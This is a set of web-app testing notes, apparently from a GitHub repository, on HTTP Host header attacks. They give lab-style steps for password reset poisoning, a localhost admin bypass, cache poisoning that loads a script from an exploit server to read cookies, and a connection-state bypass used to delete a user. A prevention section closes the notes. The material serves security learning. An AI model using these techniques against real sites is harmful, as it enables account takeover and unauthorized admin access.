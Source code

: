 # Web-app-testing-list

## HTTP Host header attacks =======================================  
We visit https://example.com/security, browser will compose a request containing a Host header:
> GET /security HTTP/1.1  
> Host: example.com  

The purpose of the HTTP Host header is to help identify which back-end component the client wants to communicate with and route request to right application.  
* Possible scenario is when a single web server hosts multiple websites or applications.
* When websites are hosted on distinct back-end servers and all traffic between the client and servers is routed through an intermediary system like load balancer or  reverse proxy server (they need to know on which back-end server to route requests). This setup is especially prevalent in cases where clients access the website via a content delivery network (CDN).

Problem is when server implicitly trusts the Host: header, and fails to validate or escape it properly  

### Password reset poisoning
Changing header Host: from legit to our malicious domain to obtain password reset link which include the unique reset token.   
1.) In Burp "POST /forgot-password" request body change the username parameter and change the Host: header to your exploit server's domain name  
2.) In malicious servers access.log obtain reset token  
3.) In Burp use our acc genuine password reset link from email, but change token parametre in URL.  
>/forgot-password?temp-forgot-password-token=S0j4fkc7y9M9AgAPXu8kDsNG1pT9kPZ4    

### Host header authentication bypass - change "Host: localhost"
If we can change Host: header to any value and still successfully access the home page.  
1.) robots.txt includes an /admin.  
2.) We cant access /admin, theres error message "Admin interface only available to local users"  
3.) In Burp change Host: header to localhost  
> Host: localhost  

### Web cache poisoning via Host: header
To reduce latency cache sits between the back-end server and the user where it saves (caches) the responses to particular requests, usually for a fixed amount of time. If another user sends equivalent request, cache simply serves a copy of the cached response w/o interfering with back-end server.
If an input is reflected in the response from the server without being properly sanitized, or is used to dynamically generate other data, then this is a potential entry point for web cache poisoning. Next step is to make cache server to save our malicious request! 

1.) GET request response with Cache header, also tampering with Host: header doesnt load website.
> Cache-Control: max-age=30  
> X-Cache: miss  

2.) Identifying unkeyed inputs that server supports with Burp Comparer or Param Miner (on live website, risk is that cache might serve our generated responses to real users, therefore make sure that our requests all have a unique cache key so that they will only be served to you.). Host: header is parameter in this case.  
3.) Add second Host: header and send 
>Host: test.test.com   

Response contains our test code in: "<script type="text/javascript" src="//test.test2.com/resources/js/tracking.js"></script>" and X-Cache: miss, send again till get X-Cache: hit, means its saved in cache for 30sec!:
> X-Cache: miss  
> EX-Cache: hit  

4.) Create malicious domain where store your exploit.
Back in Burp Repeater, add a second Host header containing your exploit server domain name

> GET /?cb=123 HTTP/1.1  # "?cb=123" is random, used as unique cache key that we know  
> Host: realwebsite.net  
> Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net  

Exploit file: /resources/js/tracking.js and body alert(document.cookie)

### Routing-based SSRF - Host header SSRF attacks

Cloud-based architectures, load balancers and reverse proxies receive requests and forward them to the appropriate back-end. If they are insecurely configured to forward requests based on an unvalidated Host header, they can be manipulated into misrouting requests.

### Routing-based SSRF - Host header SSRF attacks

### Host validation bypass via connection state attack
Poorly implemented HTTP server settings state that Host: header, are identical for all HTTP/1.1 requests. Or servers that only perform thorough validation on the first request they receive over a new connection. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection.

We know that server ip 192.168.0.1 is located /admin panel  
1.) Make the following adjustments:  
> Change the path to /admin.  
> Change Host header to 192.168.0.1.  

Send GET request. Observe that you are simply redirected to the homepage  
2.) send original / and changed /admin requests to Repeater.  
3.) Change Connection: from close to keep-alive # allows a single TCP connection to remain open for multiple HTTP requests/responses  
4.) click on + near tab names -> Create new group add both requests -> dropdown, Send group single connection  
5.) Obtain data from response:  
 > action='/admin/delete'  
 > input required type='text' name='username'  
 > name="csrf" value="yqPYeZm1xcEgnilkxPXRkfhsTc5CNRFQ"  
 
 6.) On /admin tab: delete all entries, leaving cookie, host and POST, change request to POST, change values and send, so it deletes username.  
> Content-Type: x-www-form-urlencoded  
> Content-Length:53  
> csrf=yqPYeZm1xcEgnilkxPXRkfhsTc5CNRFQ&username=carlos  

### 




----------------------
How to prevent HTTP Host header attacks
To prevent HTTP Host header attacks, the simplest approach is to avoid using the Host header altogether in server-side code. Double-check whether each URL really needs to be absolute. You will often find that you can just use a relative URL instead. This simple change can help you prevent web cache poisoning vulnerabilities in particular.

### Prevent HTTP Host header attacks:

Protect absolute URLs
When you have to use absolute URLs, you should require the current domain to be manually specified in a configuration file and refer to this value instead of the Host header. This approach would eliminate the threat of password reset poisoning, for example.

Validate the Host header
If you must use the Host header, make sure you validate it properly. This should involve checking it against a whitelist of permitted domains and rejecting or redirecting any requests for unrecognized hosts. You should consult the documentation of your framework for guidance on how to do this. For example, the Django framework provides the ALLOWED_HOSTS option in the settings file. This approach will reduce your exposure to Host header injection attacks.

Don't support Host override headers
It is also important to check that you do not support additional headers that may be used to construct these attacks, in particular X-Forwarded-Host. Remember that these may be supported by default.

Whitelist permitted domains
To prevent routing-based attacks on internal infrastructure, you should configure your load balancer or any reverse proxies to forward requests only to a whitelist of permitted domains.

Be careful with internal-only virtual hosts
When using virtual hosting, you should avoid hosting internal-only websites and applications on the same server as public-facing content. Otherwise, attackers may be able to access internal domains via Host header manipulation.




















































